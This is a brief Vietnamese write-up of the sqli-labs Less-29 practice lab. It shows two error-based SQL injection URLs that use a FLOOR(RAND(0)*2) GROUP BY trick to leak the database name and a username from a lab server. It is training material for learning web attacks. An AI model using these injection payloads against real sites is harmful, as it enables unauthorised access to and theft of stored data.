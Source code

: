 # Less 29

Đề bài cho phép truyền vào ID từ URL

![](../images/sqli-labs/Less-29/01.png)

Thử nhập vào

![](../images/sqli-labs/Less-29/02.png)

Nhập vào một các giá trị có thể dẫn đến lỗi của SQL

![](../images/sqli-labs/Less-29/03.png)

Ta thấy ở đây có lỗi hiển thị trên màn hình. Tận dụng vào đây có thể khai thác thông tin của DB thông qua đây

```
http://192.168.84.233/sqli-labs/Less-29/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-29/04.png)

Show thông tin trong một bảng

```
http://192.168.84.233/sqli-labs/Less-29/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-29/06.png)

CHưa thấy bị chặn gì bởi firewall